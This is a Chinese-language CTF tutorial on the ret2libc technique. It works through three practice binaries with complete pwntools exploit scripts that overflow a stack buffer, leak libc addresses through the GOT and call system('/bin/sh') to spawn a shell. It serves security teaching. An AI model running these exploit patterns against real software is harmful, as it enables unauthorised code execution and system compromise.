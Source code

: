 ```yaml
---
title: 【PWN】ret2libc
---
```


## 原理

ret2lic即劫持程序的控制流，使其执行libc中的函数，一般是返回到某个函数的plt处，或者某个函数的具体位置（函数对应got表的内容），大多情况下是执行system('/bin/sh')。

## 例题1

题目下载链接：https://pan.baidu.com/s/1DzkmINus__xu3_qkwoIPwQ 提取码：0000 

首先查看一下程序开了哪些安全保护

![image-20210105202149700](/assets/wgpsec/images/ret2libc/1.png)

程序是小端序32位，开了NX防护。接着使用ida查看一下程序

![image-20210105202739929](/assets/wgpsec/images/ret2libc/2.png)

程序有明显的栈溢出，在plt表中发现有system函数的地址和/bin/sh字符串

![image-20210105203242739](/assets/wgpsec/images/ret2libc/3.png)

![image-20210105203513119](/assets/wgpsec/images/ret2libc/4.png)

通过gdb调试确定字符串s的地址离ebp有多少字节，直接通过ida也能确定需要填充多少字符,，不过动态调试结果比较准

![image-20210105203911307](/assets/wgpsec/images/ret2libc/5.png)

最后的exp如下：

```python
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc1')
elf = ELF('./ret2libc1')

sys_addr = elf.plt['system']
bin_sh = elf.search('/bin/sh').next()

payload = cyclic(0x70) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh)

p.recv()
p.sendline(payload)

p.interactive()
```

## 例题2

题目下载链接：https://pan.baidu.com/s/1I9IOqD3Jq6RrghlUNL0wsg  提取码：0000 

这道题与例题1基本相似，只是程序中没有了/bin/sh字符串，我们需要通过gets函数手动写入/bin/sh字符串到一个可写可执行区域，通常在bss段，在ida找到一个地址

![image-20210105205900389](/assets/wgpsec/images/ret2libc/6.png)

```python
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc2')
elf = ELF('./ret2libc2')

sys_addr = elf.plt['system']
gets_addr = elf.plt['gets']
bss_addr = 0x0804A080

payload = cyclic(0x70) + p32(gets_addr) + p32(sys_addr) + p32(bss_addr) + p32(bss_addr)

p.recv()
p.sendline(payload)
p.sendline('/bin/sh')

p.interactive()
```

## 例题3

题目下载链接：https://pan.baidu.com/s/1wk3JFQBHgVZ0vjfnQk60Ug  提取码：0000 

例题3相对于前面两道例题难度加大了不少，程序中既没有system函数的地址，也没有/bin/sh字符串，我们需要使用libc中的system函数和/bin/sh，题目已经将libc版本给了出来，这时需要泄露libc某个函数的地址。

先使用ida查看程序

![image-20210105213153494](/assets/wgpsec/images/ret2libc/7.png)

主函数中并没有产生溢出，但有两个可以的函数，跟进去看看

![image-20210105213403543](/assets/wgpsec/images/ret2libc/8.png)

See_something函数是打印给定地址的值，可以通过这个漏洞函数可以泄露libc函数的地址

![image-20210105213622064](/assets/wgpsec/images/ret2libc/9.png)

Print_message函数的字符串拷贝存在栈溢出，又main函数可知src字符串长度最多可达256，远超过56。由于在libc中各函数地址的偏移是固定的，通过泄露出某个函数的真实地址，再减去该函数在libc中的地址就能得到libc函数中加载到内存的基址，这样就能计算出system函数和/bin/sh的地址。

exp如下：

```python
from pwn import *

context.log_level = 'debug'
p = process('./ret2libc3')
elf = ELF('./ret2libc3')
libc = ELF('./libc-2.23.so')


p.recvuntil('(in dec) :')
p.sendline(str(elf.got['puts']))
puts_addr = p.recvuntil('/n', drop = True)[-10:]
p.recvuntil('for me :')

libc_base = int(puts_addr, 16) - libc.symbols['puts']
sys_addr = libc_base + libc.symbols['system']
bin_sh = libc_base + libc.search('/bin/sh').next()

payload = cyclic(0x3c) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh)

p.sendline(payload)
p.interactive()
```

## 总结

实际上大部分题都需要我们自己获得system函数的地址，通常是通过libc的延迟绑定机制，泄露出已经执行过的函数的地址，而libc中的函数之间的相对偏移是固定的，有时候还需要返回到main函数或其他函数多次构造payload进行利用。